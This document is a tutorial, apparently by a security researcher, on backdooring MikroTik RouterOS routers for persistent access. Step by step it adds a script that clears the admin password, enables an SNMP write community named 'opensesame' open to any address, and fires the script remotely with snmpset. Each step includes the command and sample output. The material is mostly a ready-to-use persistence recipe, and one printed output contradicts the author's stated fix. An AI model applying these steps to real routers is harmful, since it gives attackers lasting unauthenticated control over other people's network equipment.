# Implementing a Password Reset Function for Persistent Access in MikroTik RouterOS

This tutorial demonstrates a post-exploitation technique to establish persistent access in MikroTik RouterOS by implementing a password reset function triggered via SNMP. We will create a MikroTik script named "password reset" to clear the admin password, enable SNMP write access using the community string "opensesame," and confirm the SNMP service is operational. The process concludes with using snmpwalk to query available scripts and snmpset to execute the password reset script remotely via SNMP, ensuring continued access post-authentication.

**Step 1: Create the Password Reset Script**

1.  **Access the MikroTik CLI**:

    * You can access the MikroTik CLI via SSH, Telnet, or the Winbox terminal. For SSH, use a terminal application like PuTTY or the built-in terminal on your operating system.
    * Connect to your MikroTik router using its IP address and login credentials.

    ```sh
    ssh admin@<router_ip_address>
    ```
2.  **Create the Script**:

    * Use the following command to create a new script named "password reset" that changes the password of the "admin" user to an empty password.
    * (Fixed error in original posting by author, add `dont-require-permissions=yes`

    ```sh
    /system script add name="password reset" source="/user set admin password=\"\"" dont-require-permissions=yes
    ```
3.  **Verify the Script**:

    * Verify that the script has been created correctly by listing all scripts.

    ```sh
    /system script print
    ```

    Output:

    ```
    [admin@MikroTik] > /system script add name="password reset" source="/user set admin password=\"\""
    [admin@MikroTik] > /system script print
    Flags: I - invalid
     0   name="password reset" owner="admin" policy=ftp,reboot,read,write,policy,test,password,sniff,sensitive,romon
         dont-require-permissions=no run-count=0 source=/user set admin password=""
    ```

**Step 2: Enable SNMP Write Access**

1.  **Enable SNMP**:

    * Enable the SNMP service on the router.

    ```sh
    /snmp set enabled=yes
    ```
2.  **Configure SNMP Community**:

    * Add an SNMP community "opensesame" with write access.

    ```sh
    /snmp community add name=opensesame addresses=0.0.0.0/0 write-access=yes
    ```
3.  **Verify SNMP Configuration**:

    * Verify that the SNMP service and community have been configured correctly.

    ```sh
    /snmp print
    /snmp community print
    ```

    Output:

    ```
    [admin@MikroTik] > /snmp print
             enabled: yes
             contact:
            location:
           engine-id:
         trap-target:
      trap-community: public
        trap-version: 1
      trap-generators: temp-exception
    [admin@MikroTik] > /snmp community print
    Flags: * - default, X - disabled
     #    NAME                ADDRESSES                                                 SECURITY   READ-ACCESS WRITE-ACCESS
     0 *  public              ::/0                                                      none       yes         no
     1    opensesame          0.0.0.0/0                                                 none       yes         yes
    ```

**Step 3: Query Scripts Using SNMP**

1.  **Install SNMP Tools**:

    * Ensure that you have SNMP tools installed on your system. On Debian-based systems, you can install them using:

    ```sh
    sudo apt-get install snmp
    ```
2.  **Use `snmpwalk` to Query Scripts**:

    * Use the `snmpwalk` command to query the OID `1.3.6.1.4.1.14988.1.1.8` to list the scripts.

    ```sh
    snmpwalk -v 2c -c opensesame <router_ip_address> 1.3.6.1.4.1.14988.1.1.8
    ```

    * This command will list the scripts available on the MikroTik router. Note that the MIB table OID      \
      values may differ.

    Output:

    ```
    SNMPv2-SMI::enterprises.14988.1.1.8.1.1.2.1 = STRING: "password reset"
    SNMPv2-SMI::enterprises.14988.1.1.8.1.1.3.1 = INTEGER: 0
    ```

**Step 4: Run the Script Using SNMP**

1.  **Use `snmpset` to Run the Script**:

    * Use the `snmpset` command to run the "password reset" script. Replace `<router_ip_address>` with the IP address of your MikroTik router.      \
      Ensure you are using the correct MIB table values for your script, from the snmpwalk command above.

    ```sh
    snmpset -c opensesame -v2c <router_ip_address> 1.3.6.1.4.1.14988.1.1.8.1.1.3.1 i 1
    ```

    Output:

    ```
    SNMPv2-SMI::enterprises.14988.1.1.8.1.1.3.1 = INTEGER: 1
    ```

    * This command will execute the "password reset" script, setting the admin password to an empty string.      \
      You can now authenticate to the router with `ssh admin@router_ip_address`.

**Summary**

This tutorial outlines adding a password reset function to MikroTik RouterOS as a post-exploitation technique for maintaining persistent access after authentication. It involves creating a "password reset" script to clear the admin password, enabling SNMP write access with the "opensesame" community string, verifying SNMP functionality, querying scripts with snmpwalk, and executing the script via snmpset. Administrative access to the router and basic networking knowledge are required.

***

**Author**: Hacker Fantastic\
**Date**: April 17, 2025\
**Website**: [https://hacker.house](https://hacker.house)
